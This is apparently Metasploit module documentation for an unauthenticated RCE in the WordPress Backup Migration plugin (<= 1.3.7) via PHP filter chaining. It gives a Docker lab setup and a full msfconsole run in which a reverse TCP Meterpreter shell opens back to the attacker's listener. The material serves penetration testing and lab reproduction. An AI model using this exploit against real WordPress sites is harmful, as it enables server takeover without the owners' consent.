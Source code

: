 ## Vulnerable Application

This module exploits an unauth RCE in the WordPress plugin: Backup Migration (<= 1.3.7).  The vulnerability is
exploitable through the Content-Dir header which is sent to the /wp-content/plugins/backup-backup/includes/backup-heart.php endpoint.

The vuln makes use of a neat technique called PHP Filter Chaining which allows an attacker to prepend
bytes to a string by continuously chaining character encoding conversion. This allows an attacker to prepend
a PHP payload to a string which gets evaluated by a require statement, which results in command execution.

### Setup 

Spin up a Wordpress instance by running `docker-compose up` in the same directory as the `docker-compose.yml` file below:
```
version: "3"
# Defines which compose version to use
services:
  # Services line define which Docker images to run. In this case, it will be MySQL server and WordPress image.
  db:
    image: mysql:5.7
    # image: mysql:5.7 indicates the MySQL database container image from Docker Hub used in this installation.
    restart: always
    environment:
      MYSQL_ROOT_PASSWORD: MyR00tMySQLPa$$5w0rD
      MYSQL_DATABASE: MyWordPressDatabaseName
      MYSQL_USER: MyWordPressUser
      MYSQL_PASSWORD: Pa$$5w0rD
      # Previous four lines define the main variables needed for the MySQL container to work: database, database username, database user password, and the MySQL root password.
  wordpress:
    depends_on:
      - db
    image: wordpress:latest
    restart: always
    # Restart line controls the restart mode, meaning if the container stops running for any reason, it will restart the process immediately.
    ports:
      - "8000:80"
      # The previous line defines the port that the WordPress container will use. After successful installation, the full path will look like this: http://localhost:8000
    environment:
      WORDPRESS_DB_HOST: db:3306
      WORDPRESS_DB_USER: MyWordPressUser
      WORDPRESS_DB_PASSWORD: Pa$$5w0rD
      WORDPRESS_DB_NAME: MyWordPressDatabaseName
# Similar to MySQL image variables, the last four lines define the main variables needed for the WordPress container to work properly with the MySQL container.
    volumes:
      ["./:/var/www/html"]
volumes:
  mysql: {}
```

Download the vulnerable Backup Migration plugin: `https://downloads.wordpress.org/plugin/backup-backup.1.3.7.zip`.
Navigate to `http://localhost:8000` and you'll be redirected and asked to setup the WordPress site. This includes 
setting a username, password, email address for the admin user etc. Once the setup is complete login as the newly created
admin user and via the options on the left side of the screen navigate to the `Plugins` and select `Add New`. Upload the
`backup-backup.1.3.7.zip` file. You should now see `Backup Migration` in the list of Plugins, select `Activate` on the
plugin. You should now have a vulnerable instance running. 

## Verification Steps

1. Start msfconsole
1. Do: `use `
1. Set the `RHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module
1. Receive a Meterpreter session in the context of the user running the WordPress application.

## Scenarios
### Backup Migration Plugin version: 1.3.7 (Containerized WordPress Version 6.0)
```
msf6 exploit(multi/http/wp_backup_migration_php_filter) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(multi/http/wp_backup_migration_php_filter) > set rport 8000
rport => 8000
msf6 exploit(multi/http/wp_backup_migration_php_filter) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(multi/http/wp_backup_migration_php_filter) > options

Module options (exploit/multi/http/wp_backup_migration_php_filter):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   PAYLOAD_FILENAME  ASmZED.php       yes       The filename for the payload to be used on the target host (%RAND%.php by default)
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT             8000             yes       The target port (TCP)
   SSL               false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI         /                yes       The base path to the wordpress application
   VHOST                              no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.123.1    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/wp_backup_migration_php_filter) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.0
[+] Detected Backup Migration Plugin version: 1.3.7
[+] The target appears to be vulnerable.
[*] Writing the payload to disk, character by character, please wait...
[*] Sending stage (39927 bytes) to 192.168.123.1
[+] Deleted L
[+] Deleted e.php
[*] Meterpreter session 3 opened (192.168.123.1:4444 -> 192.168.123.1:56224) at 2024-01-11 12:17:34 -0500

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : 856d06702f34
OS          : Linux 856d06702f34 6.5.11-linuxkit #1 SMP PREEMPT_DYNAMIC Wed Dec  6 17:14:50 UTC 2023 x86_64
Meterpreter : php/linux
meterpreter >
```